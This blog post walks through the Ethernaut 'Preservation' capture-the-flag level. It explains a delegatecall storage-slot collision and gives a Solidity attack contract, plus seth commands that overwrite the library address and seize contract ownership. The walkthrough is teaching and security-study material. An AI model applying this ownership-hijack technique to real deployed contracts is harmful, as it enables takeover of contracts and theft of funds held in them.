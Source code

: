 ```yaml
---
layout: post
title:  "OpenZeppelin Ethernaut 16: Preservation"
date:   2022-07-08 17:05:16 +0800
---
```

The preservation challenge from Ethernaut is designed to test your understanding of storage and how storage variable declaration works when it comes to delegate calls.

The challenge text is: _"This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored. The goal of this level is for you to claim ownership of the instance you are given."_

Our objective is to become the owner of the contract, but having a look at the `LibraryContract` we see that `storedTime` is being changed, not `owner`.

The security issue with this contract is that the order in which variable are declared matter. In delegate contracts the storage variable declaration order needs to match the caller. In this case it doesn't, we can see that `storedTime` in `LibraryContract` aligns with `timeZone1Library` in `Preservation`. This means that when the `LibraryContract` attempts to write to `storedTime` through the delegated call, it will actually write to the storage slot associated with `timeZone1Library`.

So we are able to change `timeZone1Library`, what can we do with this? Well we are able to control an address that is used for delegated calls so we can do whatever we want really. But since we want to become the owner of the contract, let's do that. We have to deploy a smart contract that when `setTime()` is called, it changes the `owner` storage variable to our address.

Here is our malicious contract:
{% highlight solidity %}
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.6;

contract Attack {
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner;

        function setTime(uint _time) public {
                owner = address(0xd4057e08B9d484d70C5977784fC1f6D82d45ff67);
        }
}
{% endhighlight %}

So we have our malicious contract that we've deployed, so let's start the process of attacking our target contract.

Firstly we need to change the storage slot corresponding to `timeZone1Library` with the address of our malicious contract.
```
dev@dev:~/dev/ctf/ethernaut/16$ seth send 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "setFirstTime(uint)" 0x7de4414ee9c9Dead0314765ec77Ee39e6e244cF7
```

Now our malicious address will be called when the contract does the delegated call in the function `setFirstTime()`. So let's call it. Note that the input for this function call doesn't matter, so I just choose to use `0x1`.
```
dev@dev:~/dev/ctf/ethernaut/16$ seth send 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "setFirstTime(uint)" 0x1
```

And now we're the owner of the contract! Let's verify just to be sure:
```
dev@dev:~/dev/ctf/ethernaut/16$ seth call 0xe1C918e75B1EeB66F6AeABcCc25f15C5a387bB60 "owner()(address)"
0xd4057e08B9d484d70C5977784fC1f6D82d45ff67
```
